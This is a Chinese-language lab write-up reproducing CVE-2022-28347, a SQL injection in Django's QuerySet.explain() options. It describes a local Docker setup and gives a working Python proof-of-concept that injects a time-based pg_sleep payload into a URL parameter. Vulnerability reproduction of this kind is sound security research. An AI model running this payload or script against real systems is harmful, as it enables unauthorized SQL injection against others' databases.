




# CVE-2022-28347 漏洞复现


## 1.漏洞简介

Django 是用 Python 开发的一个免费开源的 Web 框架，几乎囊括了 Web 应用的方方面面，可以用于快速搭建高性能、优雅的网站，Django 提供了许多网站后台开发经常用到的模块，使开发者能够专注于业务部分。该漏洞攻击者使用精心编制的字典，作为 **options 参数，可导致 QuerySet.explain() 方法在选项名称中受到 SQL 注入攻击。


## 2.环境介绍

**Django项目名称**：Python_CVE_2022_28347_Django

**应用程序名称**：vul

**Django版本**：4.0.1

**数据库**：PostgreSQL

**项目目录结构**:

```
├── docker-compose.yml
├── Dockerfile
├── manage.py
├── Python_CVE_2022_28347_Django
│   ├── asgi.py
│   ├── __init__.py
│   ├── settings.py
│   ├── urls.py
│   └── wsgi.py
├── requirements.txt
└── vul
    ├── admin.py
    ├── apps.py
    ├── __init__.py
    ├── migrations
    │   └── __init__.py
    ├── models.py
    ├── urls.py
    └── views.py
```


## 3.复现过程

在 docker-compose.yml 目录下执行命令，启动环境。

```
docker-compose up -d
```

执行 `docker ps` 查看是否正常启动。



访问 http://127.0.0.1:8000/vul/user 页面如下，说明环境正常启动。



漏洞点设置在了 id 传参处，直接在传参处传入 `payload`,  如下图:



利用延时注入，使服务器延时 5 秒响应，证明漏洞存在。

编写 poc 脚本：

```python
import sys
import requests
from urllib.parse import urlparse, parse_qs, urlencode, urlunparse

def replace_url_param(url, param_name, new_value):
    # 解析URL
    parsed_url = urlparse(url)
    # 解析参数
    params = parse_qs(parsed_url.query)

    # 替换参数值
    params[param_name] = [new_value]

    # 构建新的查询字符串
    encoded_params = "&".join([f"{k}={v[0]}" for k, v in params.items()])

    # 构建新的URL
    new_url_parts = list(parsed_url)
    new_url_parts[4] = encoded_params

    new_url = urlunparse(new_url_parts)

    return new_url

if len(sys.argv) < 4:
    print("请提供要导入的URL和参数名")
    sys.exit(1)

url = None
param_name = None

# 解析命令行参数
for i in range(1, len(sys.argv)):
    if sys.argv[i] == '-u':
        if i+1 < len(sys.argv):
            url = sys.argv[i+1]
    elif sys.argv[i] == '-p':
        if i+1 < len(sys.argv):
            param_name = sys.argv[i+1]

# 检查是否获取到所有必要参数
if url is None or param_name is None:
    print("请提供要导入的URL和参数名")
    sys.exit(1)

new_value = '''{"ANALYZE)+select+pg_sleep(5);--+":"test"}''' # payload

new_url = replace_url_param(url, param_name, new_value)
print(new_url)
# 发送请求并计算响应时间
response = requests.get(new_url)
response_time = response.elapsed.total_seconds()
print(f'响应时间:{response_time}')

if 5 < response_time < 6:
    print("存在CVE-2022-28347漏洞")
else:
    print("不存在CVE-2022-28347漏洞")
```

执行脚本验证：

```sh
python poc.py -u http://127.0.0.1:8000/vul/user/?id=1 -p id
```

